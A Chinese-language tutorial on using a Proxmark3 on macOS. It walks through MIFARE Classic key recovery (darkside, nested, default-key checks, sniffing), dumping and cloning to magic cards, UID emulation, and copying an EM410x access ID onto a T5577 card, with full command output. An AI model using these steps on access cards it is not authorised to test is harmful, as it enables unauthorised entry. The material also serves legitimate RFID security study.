

# macOS proxmark3 使用入门

- ## 硬件

  先花钱买个proxmark3（3000rmb左右）

  

  

- ## mac安装pm3环境

  ```bash
  $ brew tap RfidResearchGroup/proxmark3
  $ brew install proxmark3
  ```

- ## 使用

  usb插电脑，刷最新固件（这一步非必须）

  ```bash
  $ pm3-flash-all
  [=] Session log /Users/xxxxxx/.proxmark3/log_20201023.txt
  [=] Loading Preferences...
  [+] loaded from JSON file /Users/xxxxxx/.proxmark3/preferences.json
  [+] About to use the following files:
  [+]    /usr/local/Cellar/proxmark3/4.9237/bin/.share/proxmark3/firmware/bootrom.elf
  [+]    /usr/local/Cellar/proxmark3/4.9237/bin/.share/proxmark3/firmware/fullimage.elf
  [+] Waiting for Proxmark3 to appear on /dev/tty.usbmodemiceman1
   🕑  59 found
  [+] Entering bootloader...
  [+] (Press and release the button only to abort)
  [+] Waiting for Proxmark3 to appear on /dev/tty.usbmodemiceman1
   🕛  51 found
  [=] Available memory on this board: 512K bytes
  
  [=] Permitted flash range: 0x00100000-0x00180000
  [+] Loading ELF file /usr/local/Cellar/proxmark3/4.9237/bin/.share/proxmark3/firmware/bootrom.elf
  [+] Loading usable ELF segments:
  [+]    0: V 0x00100000 P 0x00100000 (0x00000200->0x00000200) [R X] @0x94
  [+]    1: V 0x00200000 P 0x00100200 (0x00000d50->0x00000d50) [R X] @0x298
  
  [+] Loading ELF file /usr/local/Cellar/proxmark3/4.9237/bin/.share/proxmark3/firmware/fullimage.elf
  [+] Loading usable ELF segments:
  [+]    0: V 0x00102000 P 0x00102000 (0x00043518->0x00043518) [R X] @0x94
  [+]    1: V 0x00200000 P 0x00145518 (0x00001374->0x00001374) [RW ] @0x435ac
  [=] Note: Extending previous segment from 0x43518 to 0x4488c bytes
  
  [+] Flashing...
  [+] Writing segments for file: /usr/local/Cellar/proxmark3/4.9237/bin/.share/proxmark3/firmware/bootrom.elf
  [+]  0x00100000..0x001001ff [0x200 / 1 blocks]
  . OK
  [+]  0x00100200..0x00100f4f [0xd50 / 7 blocks]
  ....... OK
  
  [+] Writing segments for file: /usr/local/Cellar/proxmark3/4.9237/bin/.share/proxmark3/firmware/fullimage.elf
  [+]  0x00102000..0x0014688b [0x4488c / 549 blocks]
  ...................................................................
          @@@  @@@@@@@ @@@@@@@@ @@@@@@@@@@   @@@@@@  @@@  @@@
          @@! !@@      @@!      @@! @@! @@! @@!  @@@ @@!@!@@@
          !!@ !@!      @!!!:!   @!! !!@ @!@ @!@!@!@! @!@@!!@!
          !!: :!!      !!:      !!:     !!: !!:  !!! !!:  !!!
          :    :: :: : : :: :::  :      :    :   : : ::    : 
          .    .. .. . . .. ...  .      .    .   . . ..    . 
  ...................................................................
  ............................................ OK
  
  [+] All done
  
  Have a nice day!
  ```

  进入命令行：

  ```bash
  $ pm3
  Loading Preferences...
  [+] loaded from JSON file /Users/xxxxx/.proxmark3/preferences.json
  [=] Using UART port /dev/tty.usbmodemiceman1
  [=] Communicating with PM3 over USB-CDC
  
  
    ██████╗ ███╗   ███╗█████╗ 
    ██╔══██╗████╗ ████║╚═══██╗
    ██████╔╝██╔████╔██║ ████╔╝
    ██╔═══╝ ██║╚██╔╝██║ ╚══██╗     ❄️  iceman@icesql.net
    ██║     ██║ ╚═╝ ██║█████╔╝    https://github.com/rfidresearchgroup/proxmark3/
    ╚═╝     ╚═╝     ╚═╝╚════╝  Release v4.9237 - Ice Coffee ☕
  
  
   [ Proxmark3 RFID instrument ]
  ......
  ```

  随便放一张卡上去，试一下：

  ```bash
  $ auto
   demods output possible binary
  [=] if it finds something that looks like a tag
  [=] False Positives ARE possible
  [=] 
  [=] Checking for known tags...
  [=] 
  [=] DEBUG: detectindala | 57
  [-] ⛔ No known 125/134 kHz tags found!
   🕘 Searching for ISO14443-A tag...           
  [+]  UID: 2B 1E A4 00 
  [+] ATQA: 00 04
  [+]  SAK: 08 [2]
  [+] POSSIBLE TYPE:    MIFARE Classic 1K / Classic 1K CL2
  [+] POSSIBLE TYPE:    MIFARE Plus 2K / Plus EV1 2K
  [+] POSSIBLE TYPE:    MIFARE Plus CL2 2K / Plus CL2 EV1 2K
  [=] proprietary non iso14443-4 card found, RATS not supported
  [+] Prng detection: weak
  
  [+] Valid ISO14443-A tag found
  ```

  棒不棒，你高低频都不知道，卡类型都不知道，啥都不知道，已经自动扫描出卡类型，卡id

  高兴了就好，下面我们学点基础知识。

  > RFID（Radio Frequency Identification），中文翻译为射频识别，又称无线射频识别，是一种通信技术，可通过无线电讯号识别特定目标并读写相关数据，而无需识别系统与特定目标之间建立机械或光学接触。
  >
  > RFID 按照工作频率的不同，可以分为低频（LF）、高频（HF）、超高频（UHF）等不同种类。目前国际上广泛采用的频率分布于4种波段，低频（125KHz）、高频（13.54MHz）、超高频（850MHz～910MHz）和微波（2.45GHz）。

- ## 卡片类型

  | 类型              | 简称     | 频率 | 特性                                                         |
  | :---------------- | :------- | :--- | :----------------------------------------------------------- |
  | Mifare S50        | M1       | 高频 | 最常见的卡，每张卡有独一无二的UID号，可保存修改数据,常见学生卡，饭卡，公交卡，门禁卡 |
  | Mifare UltraLight | M0       | 高频 | 低成本卡，出厂固化UID，可储存修改数据，常见地铁卡，公交卡    |
  | Mifare UID        | UID      | 高频 | M1卡的变异版本，可修改UID，国外叫做中国魔术卡，可以用来克隆M1 S50的数据 |
  | EM4XX             | ID       | 低频 | 常用固化ID卡，出厂固化ID，只能读不能写（低成本门禁卡，小区门禁卡，停车场门禁卡） |
  | T5577             | 可修改ID | 低频 | 可用来克隆ID卡，出厂为空卡，内有扇区也可存数据，个别扇区可设置密码 |
  | HID ProxⅡ         | HID      | 低频 | 美国常用的低频卡，可擦写，不与其他卡通用                     |

- ### M1卡
  
  M1卡分为16个扇区，每个扇区4块（块0～3），共64块，按块号编址为0～63。第0扇区的块0（即绝对地址0块）用于存放厂商代码，已经固化，不可更改。其他各扇区的块0、块1、块2为数据块，用于存贮数据；块3为控制块，存放密码A、存取控制、密码B。每个扇区的密码和存取控制都是独立的，可以根据实际需要设定各自的密码及存取控制。
  
  
  
  我们使用别的工具来实际dump一张M1卡的数据看看，他大概长这个样子：
  
  ```bash
  +Sector: 0
  D06F2E63F288040088980020000000F8   # 0扇区0块是特殊的数据块，用于存放制造商代码，芯片序列号UID，ATQA和SAK
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF   # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位 非加密 keyA，keyB 都是FF
  +Sector: 1
  00000000000000000000000000000000
00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF   # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 2
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF   # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 3
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF   # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 4
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF  # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 5
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF  # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 6
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF  # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 7
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF  # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 8
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF  # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 9
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF  # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 10
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF  # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 11
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF  # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 12
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF  # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 13
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF  # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 14
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF  # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  +Sector: 15
  00000000000000000000000000000000
  00000000000000000000000000000000
  00000000000000000000000000000000
  FFFFFFFFFFFFFF078069FFFFFFFFFFFF  # 密码A 6位｜ 控制位 4位 ｜ 密码B 6位
  ```
  
- ### M1卡的复制与模拟

  现在手里有一张公司的门禁卡，因为卡片可能是加密的，所以我们需要先尝试解密，这里有四种方法：

  a) PRNG漏洞攻击得0扇区密钥

  b) 默认密码扫描获得密钥

  c) 嗅探读卡机与卡片交互数据获得密钥

  d) 模拟成M1卡刷卡后获取密钥

  a.PRNG漏洞攻击得0扇区密钥

  > PRNG漏洞，是国外的安全研究人员发现，Mifare Classic采用的是Crypto-1私有加密算法，器算法的特点就是对称式的密码算法或者说是私钥密码系统。其主要组成部分是伪随机数发生器（PRNG）、48位的线性反馈移位寄存器（LFSR）以及非线性函数。由于算法中的Filter函数的设计出现缺陷，导致变线性反馈移位寄存器的后8位数值就有可能得到所对应的Keystream。这个缺陷类似于802.11b WEP算法，不同的明文有极高的可能性呗相同的Keystream，是的整个加密算法出现了漏洞

  我们尝试一下：
  ```bash
  [usb] pm3 --> hf mf darkside
  [=] --------------------------------------------------------------------------------
  [=] executing Darkside attack. Expected execution time: 25sec on average
  [=] press pm3-button on the Proxmark3 device to abort both Proxmark3 and client.
  [=] --------------------------------------------------------------------------------
  
  .
  
  [+] Parity is all zero. Most likely this card sends NACK on every authentication.
  [-] ⛔ no candidates found, trying again
  .
  
  [-] ⛔ no candidates found, trying again
  .
  
  [+] found 4 candidate keys.
  
  [+] found valid key: ffffffffffff  # 拿到key了
  
  [usb] pm3 --> hf mf nested 1 0 A FFFFFFFFFFFF t # 利用嵌套认证MFOC漏洞，使用任何一个扇区的已知密钥（在第二步中获得）攻击，获取其它所有扇区的密钥
  [+] Testing known keys. Sector count 16
  
  [=] Chunk: 0.4s | found 32/32 keys (24)
  
  [+] Fast check found all keys
  
  [+] found keys:
  [+] |-----|----------------|---|----------------|---|
  [+] | Sec | key A          |res| key B          |res|
  [+] |-----|----------------|---|----------------|---|
  [+] | 000 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 001 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 002 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 003 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 004 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 005 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 006 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 007 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 008 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 009 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 010 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 011 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 012 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 013 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 014 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 015 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] |-----|----------------|---|----------------|---|
  [+] ( 0:Failed / 1:Success)
  [+] keys transferred to emulator memory.
  ```
  b. 默认密码扫描获得密钥
  pm3内置了一些常用的key，你可以使用它来先尝试一下：
  ```bash
  [usb] pm3 --> hf mf chk *1 ? t
  [=] No key specified, trying default keys
  [ 0] ffffffffffff
  [ 1] 000000000000
  [ 2] a0a1a2a3a4a5
  [ 3] b0b1b2b3b4b5
  [ 4] c0c1c2c3c4c5
  [ 5] d0d1d2d3d4d5
  [ 6] aabbccddeeff
  [ 7] 1a2b3c4d5e6f
  [ 8] 123456789abc
  [ 9] 010203040506
  [10] 123456abcdef
  [11] abcdef123456
  [12] 4d3a99c351dd
  [13] 1a982c7e459a
  [14] d3f7d3f7d3f7
  [15] 714c5c886e97
  [16] 587ee5f9350f
  [17] a0478cc39091
  [18] 533cb6c723f6
  [19] 8fd0a4f256e9
  [20] 0000014b5c31
  [21] b578f38a5c61
  [22] 96a301bce267
  ................................
  [=] Time in checkkeys: 6 seconds
  [=] testing to read key B...
  [=] Sector 8, First block of sector 32, Num of block 4
  [=] Reading block 35
  Data:FF FF FF FF FF FF 
  
  [+] found keys:
  [+] |-----|----------------|---|----------------|---|
  [+] | Sec | key A          |res| key B          |res|
  [+] |-----|----------------|---|----------------|---|
  [+] | 000 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 001 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 002 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 003 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 004 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 005 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 006 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 007 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 008 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 009 | ------------   | 0 | ffffffffffff   | 1 |
  [+] | 010 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 011 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 012 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 013 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 014 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] | 015 | ffffffffffff   | 1 | ffffffffffff   | 1 |
  [+] |-----|----------------|---|----------------|---|
  [+] ( 0:Failed / 1:Success)
  [+] Found keys have been transferred to the emulator memory
  ```
  c. 嗅探读卡机与卡片交互数据获得密钥

    ```bash
    [usb] pm3 --> hf 14a sniff # 嗅探
    #db# Starting to sniff
    [usb] pm3 --> 
    #db# maxDataLen=3, Uart.state=0, Uart.len=0
    #db# traceLen=1282, Uart.output[0]=00000026
    [usb] pm3 --> hf list 14a # 输出嗅探的数据
    [=] downloading tracelog from device
    [+] Recorded activity (trace len = 1282 bytes)
    [=] Start = Start of Start Bit, End = End of last modulation. Src = Source of Transfer
    [=] ISO14443A - All times are in carrier periods (1/13.56MHz)
    
          Start |        End | Src | Data (! denotes parity error)                                           | CRC | Annotation
    ------------+------------+-----+-------------------------------------------------------------------------+-----+--------------------
       36888432 |   36889488 | Rdr |26                                                                       |     | REQA
       37428132 |   37430500 | Tag |04  00                                                                   |     | 
       37649488 |   37651952 | Rdr |93  20                                                                   |     | ANTICOLL
       37653140 |   37659028 | Tag |2b  1e  a4  00  91                                                       |     |  # 返回card ID
       37871936 |   37882464 | Rdr |93  70  2b  1e  a4  00  91  b4  7a                                       |  ok | SELECT_UID # 选择这张卡
       37883652 |   37887172 | Tag |08  b6  dd                                                               |     | # MIFARE 1k 卡
       38024368 |   38029136 | Rdr |e0  21  b2  c7                                                           |  ok | RATS
       38030324 |   38030964 | Tag |04                                                                       |     | 
       38177184 |   38181952 | Rdr |50  00  57  cd                                                           |  ok | HALT
       38408992 |   38409984 | Rdr |52                                                                       |     | WUPA
       38411236 |   38413604 | Tag |04  00                                                                   |     | 
       38606480 |   38608944 | Rdr |93  20                                                                   |     | ANTICOLL
       38610132 |   38616020 | Tag |2b  1e  a4  00  91                                                       |     | 
       38828800 |   38839328 | Rdr |93  70  2b  1e  a4  00  91  b4  7a                                       |  ok | SELECT_UID
       38840516 |   38844036 | Tag |08  b6  dd                                                               |     | 
       38980992 |   38985760 | Rdr |e0  21  b2  c7                                                           |  ok | RATS
       38986948 |   38987588 | Tag |04                                                                       |     | 
       39148656 |   39153424 | Rdr |50  00  57  cd                                                           |  ok | HALT
       39730656 |   39731712 | Rdr |26                                                                       |     | REQA
       39732916 |   39735284 | Tag |04  00                                                                   |     | 
       39929252 |   39935140 | Tag |2b  1e  a4  00  91                                                       |     | 
       40154432 |   40164960 | Rdr |93  70  2b  1e  a4  00  91  b4  7a                                       |  ok | SELECT_UID
       40166164 |   40169684 | Tag |08  b6  dd                                                               |     | 
       41222576 |   41223632 | Rdr |26                                                                       |     | REQA
       41224836 |   41227204 | Tag |04  00                                                                   |     | 
       41764768 |   41765824 | Rdr |26                                                                       |     | REQA
       42307104 |   42308160 | Rdr |26                                                                       |     | REQA
       42309364 |   42311732 | Tag |04  00                                                                   |     | 
       43392144 |   43393200 | Rdr |26                                                                       |     | REQA
       43394404 |   43396772 | Tag |04  00                                                                   |     | 
       43935120 |   43936176 | Rdr |26                                                                       |     | REQA
       44477568 |   44478624 | Rdr |26                                                                       |     | REQA
       44479828 |   44482196 | Tag |04  00                                                                   |     | 
       45019648 |   45020704 | Rdr |26                                                                       |     | REQA
       45562368 |   45563424 | Rdr |26                                                                       |     | REQA
       45564628 |   45566996 | Tag |04  00                                                                   |     | 
       46104688 |   46105744 | Rdr |26                                                                       |     | REQA
       46646512 |   46647568 | Rdr |26                                                                       |     | REQA
       46648756 |   46651124 | Tag |04  00                                                                   |     | 
       47731168 |   47732224 | Rdr |26                                                                       |     | REQA
       47733428 |   47735796 | Tag |04  00                                                                   |     | 
       48281312 |   48282368 | Rdr |26                                                                       |     | REQA
       48845776 |   48846832 | Rdr |26                                                                       |     | REQA
       48848020 |   48850388 | Tag |04  00                                                                   |     | 
       49358544 |   49359600 | Rdr |26                                                                       |     | REQA
       49908560 |   49909616 | Rdr |26                                                                       |     | REQA
       49910820 |   49913188 | Tag |04  00                                                                   |     | 
       50443328 |   50444384 | Rdr |26                                                                       |     | REQA
       50985280 |   50986336 | Rdr |26                                                                       |     | REQA
       50987524 |   50989892 | Tag |04  00                                                                   |     | 
    
    ```
  如果可以抓到完整的数据交换工程，可以尝试破解获取key了，我手里没有加密卡，所以你可以看看这里：
  
  ```bash
  http://www.proxmark.org/forum/viewtopic.php?id=1768
  http://www.proxmark.org/forum/viewtopic.php?id=5067
  https://guillaumeplayground.net/proxmark3-hardnested/
  ```
  
    d. 模拟成M1卡刷卡后获取密钥
    没试过
  
  
  
    既然每个扇区的密码都知道了，那么我们现在可以读取每个扇区的数据了：
    ```bash
    [usb] pm3 --> hf mf rdsc 0 A FFFFFFFFFFFF # 尝试使用key读取指定的扇区数据
    --sector no:0 key type:A key:FF FF FF FF FF FF  
    isOk:01
    data   : 2B 1E A4 00 91 08 04 00 02 47 52 10 F9 98 BB 1D 
    data   : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
    data   : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
    trailer: 00 00 00 00 00 00 FF 07 80 69 FF FF FF FF FF FF 
    
  [usb] pm3 --> hf mf ecfill A 1 # 读取所有扇区到内存
    --params: numSectors: 16, keyType: A
    
    [usb] pm3 --> hf mf esave 1 TestData # 内存dump到文件
    [=] downloading from emulator memory
    [+] saved 1024 bytes to binary file TestData-2.bin
    [+] saved 64 blocks to text file TestData-2.eml
    [+] saved to json file TestData-2.json
    ```
    如果你有魔术卡（UID卡），就可以写卡了：
    ```bash
    [usb] pm3 --> hf mf cload TestData
    [usb] pm3 --> hf mf cgetsc 0 # 读出魔术卡的扇区0，可以读取每一个扇区，以验证是否写成功
    ```
    如果你没有魔术卡，可以尝试使用pm3的模拟功能：
    ```bash
    [usb] pm3 --> hf mf sim u 2B1EA400 t 1 # 使用mf模拟
    [=] Mifare 1K | 4 byte UID  2B 1E A4 00 
    [=] Options [ numreads: 0, flags: 258 (0x102) ]
    #db# Enforcing Mifare 1K ATQA/SAK
    #db# 4B UID: 2b1ea400
    #db# ATQA  : 00 04
    #db# SAK   : 08
    [usb] pm3 --> hf 14a sim t 1 u 2B1EA400 x # 使用14a模拟
    [+] Emulating ISO/IEC 14443 type A tag with 4 byte UID (2B 1E A4 00 )
    [=] Press pm3-button to abort simulation
    ```


- ### EM4XX卡
  
  没有什么数据存储和加密，只有一个简单的5字节 EM TAG ID 数据，即这张卡的 ID。

- ### EM4XX的复制

  手里有一张大厂的id卡，我们来尝试复制一张卡

  ```bash
  [usb] pm3 --> auto
  [=] NOTE: some demods output possible binary
  [=] if it finds something that looks like a tag
  [=] False Positives ARE possible
  [=] 
  [=] Checking for known tags...
  [=] 
  [+] EM410x pattern found
  
  EM TAG ID      : 12F605F62B
  
  Possible de-scramble patterns
  
  Unique TAG ID  : 486FA06FD4
  HoneyWell IdentKey {
  DEZ 8          : 00390699
  DEZ 10         : 4127585835
  DEZ 5.5        : 62981.63019
  DEZ 3.5A       : 018.63019
  DEZ 3.5B       : 246.63019
  DEZ 3.5C       : 005.63019
  DEZ 14/IK2     : 00081436997163
  DEZ 15/IK3     : 000311110430676
  DEZ 20/ZK      : 04080615100006151304
  }
  Other          : 63019_005_00390699
  Pattern Paxton : 303707179 [0x121A342B]
  Pattern 1      : 261796 [0x3FEA4]
  Pattern Sebury : 63019 5 390699  [0xF62B 0x5 0x5F62B]
  ```
  复制之前先介绍一下T5577卡
  
  
  
  ### T5577卡
  T5577 卡是一种可以写入数据可以加密的低频卡。最特别之处是，写入ID号可以变身成为ID卡，写入HID号可以变身HID卡，写入Indala卡号，可以变身Indala卡。T5577一共有8个块，每个块只能存8位数。第0块是用来设置卡片类型和调制方式的，决定了卡片是ID卡还是HID卡，如果随意修改会导致读不到卡。
  
  ```bash
  [usb] pm3 --> lf em 410x_write 12F605F62B 1
    [+] Writing T55x7 tag with UID 0x12f605f62b (clock rate: 64)
    [+] Done
    #db# Started writing T55x7 tag ...
    #db# Clock rate: 64
    #db# Tag T55x7 written with 0xff8cbe6015e616fe
    [usb] pm3 --> auto # 验证一下写成功了吗
      [=] NOTE: some demods output possible binary
      [=] if it finds something that looks like a tag
      [=] False Positives ARE possible
      [=] 
      [=] Checking for known tags...
      [=] 
      [+] EM410x pattern found
    
      EM TAG ID      : 12F605F62B
    
      Possible de-scramble patterns
    
      Unique TAG ID  : 486FA06FD4
      HoneyWell IdentKey {
      DEZ 8          : 00390699
      DEZ 10         : 4127585835
      DEZ 5.5        : 62981.63019
      DEZ 3.5A       : 018.63019
      DEZ 3.5B       : 246.63019
      DEZ 3.5C       : 005.63019
      DEZ 14/IK2     : 00081436997163
      DEZ 15/IK3     : 000311110430676
      DEZ 20/ZK      : 04080615100006151304
      }
      Other          : 63019_005_00390699
      Pattern Paxton : 303707179 [0x121A342B]
      Pattern 1      : 261796 [0x3FEA4]
      Pattern Sebury : 63019 5 390699  [0xF62B 0x5 0x5F62B]
    
      [+] Valid EM410x ID found!
  ```
  
  